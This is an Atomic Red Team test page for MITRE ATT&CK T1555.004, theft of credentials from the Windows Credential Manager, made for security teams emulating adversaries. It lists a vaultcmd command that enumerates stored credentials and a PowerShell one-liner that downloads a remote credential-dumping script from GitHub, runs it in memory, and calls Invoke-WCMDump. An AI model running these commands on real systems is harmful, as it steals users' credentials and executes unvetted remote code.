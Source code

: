 ```yaml
---
tags: [T1555_004, atomic_test]
filename: "[[T1555.004|T1555.004 - Credentials from Password Stores: Windows Credential Manager]]"
---
```


# T1555.004 - Credentials from Password Stores: Windows Credential Manager
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/004)
<blockquote>Adversaries may acquire credentials from the Windows Credential Manager. The Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos in Credential Lockers (previously known as Windows Vaults).(Citation: Microsoft Credential Manager store)(Citation: Microsoft Credential Locker)

The Windows Credential Manager separates website credentials from application or network credentials in two lockers. As part of [Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003), Internet Explorer and Microsoft Edge website credentials are managed by the Credential Manager and are stored in the Web Credentials locker. Application and network credentials are stored in the Windows Credentials locker.

Credential Lockers store credentials in encrypted `.vcrd` files, located under `%Systemdrive%\Users\\[Username]\AppData\Local\Microsoft\\[Vault/Credentials]\`. The encryption key can be found in a file named <code>Policy.vpol</code>, typically located in the same folder as the credentials.(Citation: passcape Windows Vault)(Citation: Malwarebytes The Windows Vault)

Adversaries may list credentials managed by the Windows Credential Manager through several mechanisms. <code>vaultcmd.exe</code> is a native Windows executable that can be used to enumerate credentials stored in the Credential Locker through a command-line interface. Adversaries may also gather credentials by directly reading files located inside of the Credential Lockers. Windows APIs, such as <code>CredEnumerateA</code>, may also be absued to list credentials managed by the Credential Manager.(Citation: Microsoft CredEnumerate)(Citation: Delpy Mimikatz Crendential Manager)

Adversaries may also obtain credentials from credential backups. Credential backups and restorations may be performed by running <code>rundll32.exe keymgr.dll KRShowKeyMgr</code> then selecting the “Back up...” button on the “Stored User Names and Passwords” GUI.

Password recovery tools may also obtain plain text passwords from the Credential Manager.(Citation: Malwarebytes The Windows Vault)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Saved Credentials via VaultCmd](#atomic-test-1---access-saved-credentials-via-vaultcmd)

- [Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump](#atomic-test-2---winpwn---loot-local-credentials---invoke-wcmdump)


<br/>

## Atomic Test #1 - Access Saved Credentials via VaultCmd
List credentials currently stored in Windows Credential Manager via the native Windows utility vaultcmd.exe
Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos
https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/
https://medium.com/threatpunter/detecting-adversary-tradecraft-with-image-load-event-logging-and-eql-8de93338c16

**Supported Platforms:** Windows


**auto_generated_guid:** 9c2dd36d-5c8b-4b29-8d72-a11b0d5d7439






#### Attack Commands: Run with `command_prompt`! 


```cmd
vaultcmd /listcreds:"Windows Credentials"
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Loot local Credentials - Invoke-WCMDump
Loot local Credentials - Invoke-WCMDump technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fa714db1-63dd-479e-a58e-7b2b52ca5997






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/DumpWCM.ps1')
Invoke-WCMDump
```






<br/>
